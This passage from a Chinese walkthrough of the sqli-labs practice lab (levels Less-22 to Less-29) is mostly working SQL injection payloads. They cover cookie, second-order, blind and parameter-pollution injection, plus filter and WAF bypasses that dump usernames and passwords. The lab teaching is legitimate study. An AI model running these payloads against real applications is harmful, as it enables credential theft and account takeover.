| 关键步骤 | 明文造 payload → 编码 → 再放进 Cookie |
| 注释 | 明文里用 `#` 较省事；编码后无需再改 |

***

### Less-22：Cookie · Base64 编码 · 双引号 `"` · 报错 / 联合注入

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-22/` |
| 注入方式 | Cookie（`uname`） |
| 特殊处理 | 与 Less-21 相同：**Base64 编码** Cookie |
| 闭合方式 | `"`（双引号；一般无额外括号） |
| 类型 | 字符型；可报错，部分环境也可联合 |
| 典型 SQL 形态 | 解码后两侧再拼双引号，如 `username="$decoded"` |

#### 源码逻辑（理解用）

流程与 Less-21 一致：Cookie → `base64_decode` → 拼进 SQL。差别在于 SQL 用**双引号**包裹用户名，因此闭合符从 `')` 换成 `"`。

#### 解题步骤

**1）正常登录，确认 Cookie 为 Base64**

例如 `uname=YWRtaW4=` 解码仍为 `admin`。


**2）确认闭合为双引号**

明文测试后编码提交：

| 明文 | 说明 |
| --- | --- |
| `admin"` | 易触发语法错误 |
| `admin"#` | 尝试闭合并注释后续 |

根据报错确认是 `"` 而不是 `')`。


**3）报错注入读库名**

明文 payload：

```latex
admin" and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
```

或：

```latex
admin" and extractvalue(1,concat(0x7e,(select database()),0x7e))#
```

整段 Base64 后：

```http
Cookie: uname=<Base64结果>
```


**4）读表、列、数据**

明文示例：

```latex
admin" and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)#
```

```latex
admin" and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1)#
```

```latex
admin" and updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from users limit 0,1),0x7e),1)#
```

逐条编码后写入 Cookie。


**5）联合查询（可选）**

明文测列数（以本地成功结果为准）：

```latex
admin" order by 1#
admin" order by 2#
admin" order by 3#
admin" order by 4#
```


若为 3 列：

```latex
-1" union select 1,database(),3#
-1" union select 1,group_concat(username,0x3a,password),3 from users#
```

若为 4 列则 `union select 1,2,3,database()#` 等形式。**列数务必本地 **`order by`** 验证。**


**6）与 Less-21 对照**

| 项目 | Less-21 | Less-22 |
| --- | --- | --- |
| Cookie 编码 | Base64 | Base64 |
| 闭合 | `')` | `"` |
| 明文库名示例 | `admin') and updatexml(...)#` | `admin" and updatexml(...)#` |
| 其余步骤 | 编码 → Cookie → 提交 | 相同 |

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 核心差异 | 仅闭合符不同（`')` vs `"`） |
| 易错点 | 改闭合后忘记重新 Base64；或对已编码结果再编一次 |
| 调试 | 先解码当前 Cookie 确认明文，再改明文、再编码 |
| 工具 | Burp Decoder 固定「明文 → Base64 → 替换 Cookie」流水线 |

***

### Less-23：GET · 过滤注释符 · 单引号字符型

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-23/?id=1` |
| 注入方式 | GET |
| 闭合 | 单引号 `'` |
| 过滤内容 | 注释符 `#`、`--`（被替换为空） |
| 有无报错回显 | 有 |
| 典型 SQL 形态 | `SELECT * FROM users WHERE id='$id' LIMIT 0,1` |
| 主攻手法 | 联合查询或报错注入；用**对称闭合**代替注释 |

#### 源码逻辑（理解用）

对 `$id` 做 `preg_replace`，去掉 `#` 和 `--`。因此 `--+`、`%23` 都失效，后面的 `' LIMIT 0,1` 无法被注释掉，必须自己把末尾的单引号“接住”。

#### 解题步骤

**1）确认注入**

```latex
?id=1
?id=1'
```

`1'` 出现语法错误 → 单引号字符型。


**2）确认注释被过滤**

```latex
?id=1' --+
?id=1' %23
```

%23 是 # 的 URL 编码后的。

仍报错或逻辑不对 → 注释不可用。


**3）用闭合代替注释**

思路：让语句在逻辑上完整，末尾再用 `'` 闭合原 SQL 的引号。

```latex
?id=1' and '1'='1
?id=1' and '1'='2
```

前者正常、后者异常 → 布尔可用，且无需注释。


**4）联合查询（注意末尾闭合）**

列数以本地 `order by` 为准。示例（3 列时）：

```latex
?id=-1' union select 1,2,3 and '1'='1
```

或：

```latex
?id=-1' union select 1,2,3'
```


到第 4 列的时候出现报错，说明列数只有 3 列。


读库名：

```latex
?id=-1' union select 1,database(),3 and '1'='1
```


读表名：

```latex
?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' and '1'='1
```


读列名：

```latex
?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users' and '1'='1
```


读数据：

```latex
?id=-1' union select 1,group_concat(username,0x3a,password),3 from users where '1'='1
```

或

```latex
?id=-1' union select 1,group_concat(username,0x3a,password),3 from users where 1=1 and '1'='1
```


**5）报错注入（同样要闭合尾部）**

```latex
?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1) and '1'='1
```

```latex
?id=1' or updatexml(1,concat(0x7e,(select database()),0x7e),1) or '1'='1
```


**6）可选：**`%00`\*\* 截断（视 MySQL/PHP 版本）\*\*

部分环境可用：

```latex
?id=-1' union select 1,database(),3;%00
```

不稳定时仍以对称闭合为准。


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 核心 | 注释被删，不能靠 `--` / `#` |
| 绕过 | 末尾 `and '1'='1` 或补一个 `'` |
| 列数 | 务必本地 `order by` 实测 |

***

### Less-24：二次注入（注册 + 改密）

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-24/` |
| 类型 | **二次注入（Second Order）** |
| 流程 | 注册用户名带恶意片段 → 入库时转义 → 改密码时取出用户名**未再转义**拼进 UPDATE |
| 关键限制 | 用户名长度常有上限（如约 20 字符），payload 要短 |

#### 源码逻辑（理解用）

1. **注册**：用户名可能经 `addslashes` / `mysql_real_escape_string` 后写入，单引号被转义，注册阶段不一定报错。
2. **登录**：用该账号登录成功。
3. **改密码**：`UPDATE ... WHERE username='$取出的用户名'`。取出的是库里的原始值（含 `'`），若取出后不再转义，就会构成二次注入。

#### 解题步骤

**1）注册恶意用户名**

注册一个用户名类似：

```latex
admin'#
```

或（视长度与过滤）：

```latex
admin'--
```

密码自己设定（如 `123456`）。若 `admin` 已存在，可用：

```latex
admin' #
```

注意空格、长度限制；以能注册成功为准。


**原理**：库中存的是带 `'` 的用户名。改密时 SQL 可能变成：

```sql
UPDATE users SET password='新密码' WHERE username='admin'# ....'
```

`#` 后被注释，条件变成只匹配 `admin`，从而改的是 **admin** 的密码，而不是你的马甲号。

**2）用刚注册的账号登录**

用户名填注册时的完整字符串，密码填你设的密码。


**3）进入改密页面，修改密码**

把密码改成你想控制的值（如 `hacked`），提交。

若二次注入成功，实际被改的是 `admin`**（或被注释掉后面条件后的目标用户）** 的密码。


**4）验证**

退出后，用 `admin` + 你刚设的新密码登录。能进则说明二次注入成立。


**5）其他利用思路（进阶）**

在长度允许时，用户名中可尝试更复杂的片段，使二次使用点执行报错/联合（本关重点是理解「写入转义、使用未转义」）。

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 与前面关卡 | 不是一次请求打穿，而是「存一次、用一次」 |
| 防御对照 | 入库转义不够；**每次**拼 SQL 都要参数化 |
| 注意 | 用户名长度限制、是否允许 `#` 等字符 |

***

### Less-25：GET · 过滤 `or` / `and` · 单引号

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-25/?id=1` |
| 注入方式 | GET |
| 闭合 | 单引号 `'` |
| 过滤内容 | `or`、`and`（不区分大小写，替换为空） |
| 有无报错回显 | 有 |
| 主攻手法 | 双写绕过 / `||` `&&` 替代；联合或报错 |

#### 源码逻辑（理解用）

```latex
preg_replace('/or/i', "", $id);
preg_replace('/and/i', "", $id);  // 或 /AND/i 等
```

一次匹配删除，**双写**后删掉中间仍能拼回完整关键字；也可用逻辑运算符代替。

#### 解题步骤

**1）确认过滤**

```latex
?id=1' and 1=1--+
?id=1' or 1=1--+
```

`and`/`or` 被挖空导致语句异常。


**2）双写绕过**

```latex
?id=1' anandd 1=1--+
?id=1' oorr 1=1--+
```

过滤去掉一层 `and`/`or` 后，剩下 `and`/`or`。


**3）符号替代**

```latex
?id=1' && 1=1--+
?id=1' || 1=1--+
```

URL 中 `&` 需编码：

```latex
?id=1'%26%26 1=1--+
?id=1'%7c%7c 1=1--+
```


**4）联合查询**

```latex
?id=-1' ununionion select 1,2,3--+
```

（若本关未过滤 union/select，直接 `union select` 即可；`ununionion` 为保险双写。）


列数本地实测。取数据示例：

```latex
?id=-1' union select 1,database(),3--+
?id=-1' union select 1,group_concat(table_name),3 from infoorrmation_schema.tables where table_schema=database() --+
?id=-1' union select 1,group_concat(column_name),3 from infoorrmation_schema.columns where table_schema='security' anandd table_name='users' --+
?id=-1' union select 1,group_concat(username,0x3a,passwoorrd),3 from users--+
```


**5）报错注入（绕过 and）**

```latex
?id=1' anandd updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
```

或：

```latex
?id=1' %26%26 updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
```

注意：`information_schema` 中含 `or`（如 `information_schema`），可能被拆坏，可用双写：`infoorrmation_schema`，或改用 `database()`、直接查 `users`。


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 过滤 | 大小写不敏感的 `or`/`and` |
| 绕过 | 双写、`||`、`&&` |
| 坑 | 库名/表名字符串里的 `or` 也可能被删 |

***

### Less-25a：GET · 过滤 or / and · 数字型 · 盲注倾向

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | /Less-25a/?id=1 |
| 注入方式 | GET |
| 类型 | **数字型**（SQL 中 id 一般无引号包裹） |
| 过滤内容 | 与 Less-25 类似：or、and（不区分大小写，替换为空） |
| 与 Less-25 的差异 | 多为整型；页面常**不回显详细 MySQL 报错**，联合/报错不一定好用，偏向**布尔或时间盲注** |
| 典型 SQL 形态 | SELECT \* FROM users WHERE id=$id LIMIT 0,1 |

#### 源码逻辑（理解用）

黑名单去掉 or/and 后直接拼进数字条件。没有字符闭合负担，但关键字被挖空后，and 1=1 会变成残缺语句，需双写或改用 && / ||。

#### 解题步骤

**1）确认数字型与过滤**

```plain
?id=1
?id=1'
?id=1 and 1=1
?id=1 and 1=2
```

* 加单引号不一定是“字符型特征”；本关重点看 **and/or 是否被删**
* and 失效时，试双写或编码后的 &&


**2）绕过 and / or**

双写：

```plain
?id=1 aandnd 1=1
?id=1 aandnd 1=2
```

或：

```plain
?id=1 %26%26 1=1
?id=1 %26%26 1=2
```

真假页有差异 → 可做布尔盲注。


**3）若环境仍有联合回显**

列数以本地为准。示例：

```plain
?id=-1 union select 1,2,3
?id=-1 union select 1,database(),3
?id=-1 union select 1,group_concat(username,0x3a,passwoorrd),3 from users
```

说明：password 含 or，可能被滤成 passwrd，需写成 **passwoorrd**（双写 or）。


**4）布尔盲注猜库名**

```plain
?id=1 aandnd length(database())=8
?id=1 aandnd substr(database(),1,1)='s'
```

或：

```plain
?id=1 %26%26 length(database())=8
?id=1 %26%26 ascii(substr(database(),1,1))=115
```


**5）时间盲注备选**

```plain
?id=1 aandnd if(length(database())=8,sleep(5),0)
?id=1 %26%26 if(substr(database(),1,1)='s',sleep(5),0)
```

这里如果出现等待的时候是 5 秒，就说明是成功的。


如果出现等待的时候很快，就说明不时间盲注不成功。


**6）查表、列、数据**

在盲注条件中替换子查询即可；涉及 information_schema 时注意其中的 or，可用双写：

```plain
infoorrmation_schema
```

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 与 Less-25 | 过滤相同思路；本关偏整型 + 弱报错 |
| 绕过 | aandnd / oorr / %26%26 / %7c%7c |
| 坑 | 字段名 password、库名路径里的 or |

***

### Less-26：GET · 过滤空格、注释、`or`/`and` 等

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-26/?id=1` |
| 闭合 | 单引号 `'` |
| 过滤内容 | 空格类空白、`/*`、`--`、`#`、`or`、`and`、部分斜杠等 |
| 有无报错回显 | 有（便于报错注入） |
| 主攻手法 | 空白符替代 + 双写/逻辑符 + 括号省空格 + 尾部闭合 |

#### 源码逻辑（理解用）

在 Less-25 基础上进一步去掉空白和注释，导致：

* 不能写普通空格分隔的 `union select`
* 不能用 `--` / `#` 注释尾巴

#### 解题步骤

**1）确认过滤**

```latex
?id=1'
?id=1' and 1=1--+
```

空格、and、注释均可能失效。


**2）空白绕过**

用其它分隔代替空格，常见：

| 替代 | URL 写法 | 说明 |
| --- | --- | --- |
| 换行 | `%0a` | 常用 |
| 空格 | `%a0` | 常用 |
| 制表符 | `%09` | 常用 |
| 垂直制表 | `%0b` | 视环境 |
| `/**/` | 本关常被过滤 `/*` | 可能无效 |

**3）or/and 绕过**

同 Less-25：双写或 `||` / `&&`（`%7c%7c` / `%26%26`）。

**4）注释绕过**

用尾部对称闭合：

```latex
... || '1'='1

?id=1'%0a||%0a'1'='1
```


**5）报错注入示例（少空格）**

括号可减少对空格的依赖：

```latex
?id=1' || updatexml(1,concat(0x7e,database(),0x7e),1) || '
```

或：

```latex
?id=1'%0a||%0aupdatexml(1,concat(0x7e,database(),0x7e),1)%0a||%0a'
```


**6）联合查询示例**

这里本地靶场不能复现，在线靶场可以复现，可能是和部署的环境有关系，用 Linux 去部署可能就能复现。

```latex
?id=111' union%a0select%a01,2,3%a0%26%26'1'='1

?id=111' union%a0select%a01,database(),3%a0%26%26'1'='1

?id=111' union%a0select%a01,group_concat(table_name),3%a0from%a0infoorrmation_schema.tables%a0where%a0table_schema='security'%a0%26%26'1'='1

?id=111' union%a0select%a01,group_concat(column_name),3%a0 from%a0infoorrmation_schema.columns%a0where%a0table_name='users'%a0%26%26'1'='1
```

若 `or` 被过滤影响 `information_schema`：

```latex
?id=111' union%a0select%a01,group_concat(username,0x3a,passwoorrd),3%a0from%a0users%a0where%a0'1'='1
```


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 组合过滤 | 空格 + 注释 + and/or |
| 关键技术 | `%0a`/`%09` + `||` + 尾部 `'...'` |
| 优先 | 报错注入往往比联合更好写 |

***

### Less-26a：GET · 过滤空格 / 注释 / or/and · ') 闭合 · 盲注

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | /Less-26a/?id=1 |
| 注入方式 | GET |
| 闭合 | **')**（单引号 + 右括号） |
| 过滤内容 | 与 Less-26 类似：空白、/\*、--、#、or、and 等 |
| 与 Less-26 的差异 | ① 闭合多为 ')；② **常无详细报错**，报错注入困难，主攻布尔/时间盲注 |
| 典型 SQL 形态 | SELECT \* FROM users WHERE id=('$id') LIMIT 0,1 |

#### 源码逻辑（理解用）

$id 落在 ('$id') 中，过滤后又无法用 --/# 注释掉尾巴，因此需要：

* 开头用 ') 闭合
* 结尾用 ('1 或 ||'1'='1 一类方式把后面的 ') 接住
* 空格用 %0a / %09 / %a0 等替代
* and/or 用双写或 &&/||

#### 解题步骤

**1）确认闭合与真假**

```plain
?id=1'
?id=1')
?id=1')%26%26(1=1)%26%26('1
?id=1')%26%26(1=2)%26%26('1
```

或：

```plain
?id=1')%0a%26%26%0a(1=1)%0a%26%26%0a('1'='1
```

能区分成功/失败页即可。


**2）可选 %00 截断（视环境）**

```plain
?id=1')%26%26(1=1);%00
?id=1')%26%26(1=2);%00
```

无效则坚持对称闭合，不依赖 %00。


**3）布尔盲注猜库名长度**

```plain
?id=1')%26%26(length(database())=8)%26%26('1
```


**4）逐字符猜库名**

```plain
?id=1')%26%26(substr(database(),1,1)='s')%26%26('1
?id=1')%26%26(ascii(substr(database(),1,1))=115)%26%26('1
```

空格被过滤时，用括号包住函数调用，减少空格：

```plain
?id=1')%26%26(substr(database(),1,1)='s')%26%26('1
```


**5）时间盲注**

```plain
?id=1')%26%26(if(length(database())=8,sleep(5),0))%26%26('1
?id=1')%26%26(if(substr(database(),1,1)='s',sleep(5),0))%26%26('1
```


**6）联合查询（若偶然有回显）**

```plain
?id=111')%a0union%a0select%a01,2,3%a0%26%26%0a('1

?id=111')%a0union%a0select%a01,database(),3%a0%26%26%0a('1

?id=111')%a0union%a0select%a01,group_concat(table_name),3%a0from%a0infoorrmation_schema.tables%a0where%a0table_schema=database()%a0%26%26%0a('1

?id=111')%a0union%a0select%a01,group_concat(column_name),3%a0from%a0infoorrmation_schema.columns%a0where%a0table_schema=database()%a0anandd%a0table_name='users'%a0%26%26%0a('1

?id=111')%a0union%a0select%a01,group_concat(username,0x3a,passwoorrd),3%a0from%a0users%a0where%a0('1
```

多数 26a 环境以盲注为主，不必强求 union。


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 与 Less-26 | 过滤同类；本关 ') + 弱报错 |
| 结构 | ') + 条件 + ('1 或等价闭合 |
| 空白 | %0a / %09 / 括号减少空格 |
| and/or | %26%26 / %7c%7c / 双写 |

***

### Less-27：GET · 过滤 `union` / `select` 与空格、注释

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-27/?id=1` |
| 闭合 | 单引号 `'` |
| 过滤内容 | 空格、`/*`、`--`、`#`，以及多种大小写的 `union`/`select`（具体以源码为准，多为**按固定大小写模式**删除，不是完美的 `/i`） |
| 有无报错回显 | 多数情况有 |
| 主攻手法 | 大小写混写 / 双写打乱关键字；空白用 `%0a` 等；尾部闭合 |

#### 源码逻辑（理解用）

黑名单多次 `preg_replace` 去掉 `union`、`select`、`UNION`、`SELECT`、`Union`、`Select` 等，以及空格和注释。若未覆盖所有大小写组合，可用 `UnIoN`\*\* / \*\*`sElEcT` 绕过；也可用双写 `ununionion`、`selselectect`。

#### 解题步骤

**1）确认过滤**

```latex
?id=1' union select 1,2,3--+
```

关键字或空格被删导致失败。


**2）绕过 union / select**

尝试大小写混写：

```latex
?id=-1'%0aUNiON%0aSELeCT%0a1,2,3%0a||%0a'1'='1
```

或双写（<font style="color:rgb(34, 34, 38);">这关 select 没法双写绕过，三写就可以绕过了</font>）：

```latex
?id=-1'%0aununionion%0aselselselectectect%0a1,2,3%0a||%0a'1'='1
```


**3）读库名**

```latex
?id=111'%0aUNiON%0aSELeCT%0a1,2,3%0a||%0a'1'='1

?id=111'%0aUNiON%0aSELeCT%0a1,database(),3%0a||%0a'1'='1

?id=111'%0aUNiON%0aSELeCT%0a1,group_concat(table_name),3%0afrom%0ainformation_schema.tables%0awhere%0atable_schema=database()%0a%26%26%0a'1'='1

?id=111'%0aUNiON%0aSELeCT%0a1,group_concat(column_name),3%0afrom%0ainformation_schema.columns%0awhere%0atable_schema=database()%0a%26%26%0atable_name='users'%0a%26%26%0a'1'='1
```


**4）读数据**

```latex
?id=111'%0aUNiON%0aSELeCT%0a1,group_concat(username,0x3a,password),3%0afrom%0ausers%0awhere%0a'1'='1
```


**5）报错注入（减少对 union 的依赖）**

```latex
?id=1'||updatexml(1,concat(0x7e,database(),0x7e),1)||'
```

子查询里若必须写 `select`，同样做大小写/双写：

```latex
?id=1'||updatexml(1,concat(0x7e,(sElEcT%0agroup_concat(table_name)%0afrom%0ainformation_schema.tables%0awhere%0atable_schema=database()),0x7e),1)||'

?id=1'||updatexml(1,concat(0x7e,(sElEcT%0agroup_concat(column_name)%0afrom%0ainformation_schema.columns%0awhere%0atable_schema=database()%0aand%0atable_name='users'),0x7e),1)||'

?id=1'||updatexml(1,concat(0x7e,(sElEcT%0agroup_concat(column_name)%0afrom%0ainformation_schema.columns%0awhere%0atable_schema=database()%0aand%0atable_name='users'),0x7e),1)||'

?id=1'||updatexml(1,concat(0x7e,(sElEcT%0agroup_concat(username,0x3a,password)%0afrom%0ausers),0x7e),1)||'
```

若 `select` 仍被剥，继续双写 `selselectect`。


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 过滤重点 | `union` + `select` + 空白 + 注释 |
| 绕过 | 混写大小写、双写、`%0a`、尾部闭合 |
| 建议 | 先报错拿 `database()`，再决定是否硬刚 union |

***

### Less-27a：GET · 过滤 union / select · 双引号 · 盲注

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | /Less-27a/?id=1 |
| 注入方式 | GET |
| 闭合 | **双引号 \*\*\*\*"**（部分环境为其它，以本地为准） |
| 过滤内容 | 与 Less-27 类似：空格、注释，以及多种形式的 union/select |
| 与 Less-27 的差异 | **无可靠报错/联合回显**，以布尔或时间盲注为主 |
| 典型 SQL 形态 | ... WHERE id="$id" ... 或带括号变体 |

#### 源码逻辑（理解用）

关键字过滤与 27 相近（按大小写模式删 union/select 等）。页面不把 SQL 错误和字段打出来，只能根据“有数据 / 无数据”或延时判断。

#### 解题步骤

**1）确认闭合**

```plain
?id=1'
?id=1"
?id=1"%26%26"1"="1
?id=1"%26%26"1"="2
```

双引号真假可区分 → 按 " 构造。


**2）绕过空格与注释**

* 空格 → %0a、%09
* 注释不可用 → 尾部 "1"="1 对称闭合

**3）绕过 union / select（盲注里若用到子查询）**

子查询中的 select 需混写或双写，例如：

```plain
sElEcT
selselselectectect
```

**4）布尔盲注**

```plain
?id=1"%0a%26%26%0alength(database())=8%0a%26%26%0a"1"="1
?id=1"%0a%26%26%0asubstr(database(),1,1)='s'%0a%26%26%0a"1"="1
```


**5）时间盲注**

```plain
?id=1"%0a%26%26%0aif(length(database())=8,sleep(5),0)%0a%26%26%0a"1"="1
?id=1"%0a%26%26%0aif(ascii(substr(database(),1,1))=115,sleep(5),0)%0a%26%26%0a"1"="1
```


**6）猜表与数据**

```plain
?id=1"%0a%26%26%0a(sElEcT%0acount(1)%0afrom%0ainformation_schema.tables%0awhere%0atable_schema=database()%0a%26%26%0atable_name='users')>0%0a%26%26%0a"1"="1
```

若 select 仍被剥，改为双写：

```plain
seselselectect
```

information_schema 含 or 时，视本关是否过滤 or 决定是否双写 infoorrmation_schema（27a 若未滤 or 则不必）。


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 与 Less-27 | 过滤思路相近；本关双引号 + 盲注 |
| 关键字 | 大小写混写 / 双写 union、select |
| 主手法 | 布尔或时间；不要依赖报错回显 |

***

### Less-28：GET · 过滤「union + 空白 + select」整体

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-28/?id=1` |
| 闭合 | 常见为 `')`（以报错为准，部分环境为 `'`） |
| 过滤内容 | 注释、空格，以及正则类似 `union\s+select`**（忽略大小写）** 的整段匹配 |
| 特点 | 单独的 `union` 或 `select` 不一定删；**连在一起的 union+空白+select** 会被去掉 |
| 主攻手法 | 打断连续匹配（如 `union/**/select` 若 `/*` 可用；或 `union%0aselect` 视 `\s` 定义；或 `union all select`；或中间插入注释/双写） |

#### 源码逻辑（理解用）

典型黑名单包含：

```latex
preg_replace('/union\s+select/i', "", $id);
```

以及去掉空格、`#`、`--`、`/*` 等。绕过思路是让 payload **匹配不到** `union\s+select` 这一整段。

#### 解题步骤

**1）确认闭合**

```latex
?id=1'
?id=1')
?id=1')%0a%26%26%0a('1
```

以本地报错为准；下文以 `')` 为例，若是 `'` 则去掉括号。


**2）确认 union select 被连删**

```latex
?id=111')%0aunion%0aselect%0a1,2,3%0a%26%26%0a('1')=('1')=('1
```

若失败，试打断：

```latex
?id=111')%0aunion%0aall%0aselect%0a1,2,3%0a%26%26%0a('1')=('1
```

或双写拆词：

```latex
?id=111')%0auniounionn%0aselect%0a1,2,3%0a%26%26%0a('1')=('1
```

（具体哪种有效取决于正则是否只删一次、是否含 `all`。）


**3）测列数**

```latex
?id=1')%0aorder%0aby%0a1%0a%26%26%0a('1')=('1
?id=1')%0aorder%0aby%0a2%0a%26%26%0a('1')=('1
?id=1')%0aorder%0aby%0a3%0a%26%26%0a('1')=('1
```


**4）取数据**

```latex
?id=111')%0aunion%0aall%0aselect%0a1,database(),3%0a%26%26%0a('1')=('1

?id=111')%0aunion%0aall%0aselect%0a1,group_concat(table_name),3%0afrom%0ainformation_schema.tables%0awhere%0atable_schema=database()%26%26%0a('1')=('1

?id=111')%0aunion%0aall%0aselect%0a1,group_concat(column_name),3%0afrom%0ainformation_schema.columns%0awhere%0atable_schema='security'%0a%26%26%0atable_name='users'%0a%26%26%0a('1')=('1

```

```latex
?id=111')%0aunion%0aall%0aselect%0a1,group_concat(username,0x3a,password),3%0afrom%0ausers%0awhere%0a('1')=('1
```


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 与 Less-27 | 27 常分别删 union/select；28 侧重删「union+空白+select」整段 |
| 绕过 | `union all select`、双写、其它空白/插入打乱 |
| 注释与空格 | 仍常被过滤，靠 `%0a` + 尾部逻辑闭合 |

***

### Less-28a：GET · 过滤 union\s+select · ') 闭合 · 盲注

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | /Less-28a/?id=1 |
| 注入方式 | GET |
| 闭合 | 常见 **')** |
| 过滤内容 | 与 Less-28 类似：注释、空格，以及 **union\s+select**\*\*（忽略大小写）\*\* 整段 |
| 与 Less-28 的差异 | 更偏向**无报错盲注**；部分版本黑名单更“干净”或略有不同，以源码为准 |
| 典型 SQL 形态 | ... WHERE id=('$id') ... |

#### 源码逻辑（理解用）

重点仍是：不能出现“union + 空白 + select”连续模式；空格和注释常被去掉。盲注场景下，甚至可以**少用或不用 union**，直接用 and/&& + if/substr 猜数据。

#### 解题步骤

**1）确认闭合与真假**

```plain
?id=1')
?id=1')%26%26(1=1)%26%26('1
?id=1')%26%26(1=2)%26%26('1
```

或带换行：

```plain
?id=1')%0a%26%26%0a(1=1)%0a%26%26%0a('1'='1

?id=1') and (1=1) and ('1'='1
```


**2）确认 union select 整段过滤（可选）**

```plain
?id=-1') union all select 1,2,3 and ('1'='1
```

失败则试：

```plain
?id=-1')%0aunion%0aselect%0a1,2,3%0a%26%26%0a('1
?id=-1')%0auniounionn%0aselect%0a1,2,3%0a%26%26%0a('1
```

盲注关可跳过联合，直接做条件判断。


**3）布尔盲注**

```plain
?id=1') and (length(database())=8) and ('1'='1
?id=1') and (substr(database(),1,1)='s') and ('1'='1
```


**4）时间盲注**

```plain
?id=1') and (if(length(database())=8,sleep(5),0)) and ('1'='1
?id=1') and (if(ascii(substr(database(),1,1))=115,sleep(5),0)) and ('1'='1
```


**5）枚举表名与密码**

```plain
?id=1') and ((select count(*) from information_schema.tables where table_schema=database() and table_name='users')>0) and ('1'='1
```

注意：子查询里的 select 单独出现通常**不会**命中 union\s+select；若仍被莫名其妙过滤，再混写/双写。

```plain
?id=1') and (substr((select password from users limit 0,1),1,1)='D') and ('1'='1
```


**6）若要坚持联合取数**

在打断 union select 的前提下，按本地列数构造，并保持 ') 与尾部闭合；无回显时联合意义不大，优先盲注脚本。

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 与 Less-28 | 过滤整段 union\s+select 同类 |
| 闭合 | ') + 尾部 ('1 或等价 |
| 推荐路径 | 布尔/时间盲注，避免硬刚 union |
| 空格 | %0a / 括号 |

***

### Less-29：GET · WAF / HPP 参数污染 · 单引号字符型

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-29/login.php?id=1`（部分环境为 `index.jsp` + Tomcat，以你本地为准） |
| 注入方式 | GET |
| 类型 | 字符型（单引号） |
| 核心考点 | **HTTP 参数污染（HPP）** / 前后端对同名参数取值不一致（Impedance mismatch） |
| 典型 SQL 形态 | `SELECT * FROM users WHERE id='$id' LIMIT 0,1` |
| 主攻手法 | 两个同名 `id`：第一个过 WAF，第二个真正进 SQL |

#### 源码逻辑（理解用）

本关模拟「前面有一层 WAF / Java 取参，后面 PHP 再取参」：

1. **WAF 侧**（源码里常通过解析 `QUERY_STRING` 的 `java_implimentation()` + `whitelist()`）：
   * 往往只看**第一个** `id`
   * 要求必须是纯数字，否则跳转到 `hacked.php` 等拦截页
2. **业务侧**（`$_GET['id']`）：
   * PHP 对同名参数通常取**最后一个**
   * 该值直接拼进 SQL，可注入

因此构造：

```latex
?id=1&id=<恶意payload>
```

* 第一个 `id=1`：WAF 认为合法
* 第二个 `id=...`：进入数据库查询

#### 解题步骤

这关的正确的链接是：

```plain
http://sqli-labs/Less-29/login.php
```


**1）确认存在 WAF**

```latex
?id=1'
```

若被跳转到拦截页或提示非法，说明对参数做了白名单（常要求纯数字）。


**2）用 HPP 绕过**

```latex
?id=1&id=1'
```

* 若不再被 WAF 拦，并出现 SQL 语法错误 → 第二个 `id` 进了 SQL，且为**单引号**字符型。


**3）确认闭合与注释**

```latex
?id=1&id=1' --+
?id=1&id=1' %23
```

页面正常或逻辑符合预期，说明可用 `--+` / `#` 注释后续。


**4）判断列数（以本地为准）**

```latex
?id=1&id=1' order by 1--+
?id=1&id=1' order by 2--+
?id=1&id=1' order by 3--+
?id=1&id=1' order by 4--+
```

最后一个成功的数字即为列数。


**5）联合查询找显示位**

```latex
?id=1&id=-1' union select 1,2,3--+
```

观察哪一列出现在用户名/密码位置。


**6）取数据**

```latex
?id=1&id=-1' union select 1,database(),3--+
```

```latex
?id=1&id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+
```

```latex
?id=1&id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users'--+
```

```latex
?id=1&id=-1' union select 1,group_concat(username,0x3a,password),3 from users--+
```


**7）报错注入备选**

```latex
?id=1&id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+

?id=1&id=-1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) --+

?id=1&id=-1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1) --+

?id=1&id=-1' and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e),1) --+
```


**8）补充：长字符串截断类绕过（部分源码实现）**

若 `java_implimentation()` 只截取第一个 `id=` 后固定长度（如约 30 字符）送给白名单，而 SQL 使用完整 `$_GET['id']`，则超长数字前缀也可能绕过检测。仍以 **HPP 双参数** 为标准解法。

#### 要点小结

| 点 | 说明 |
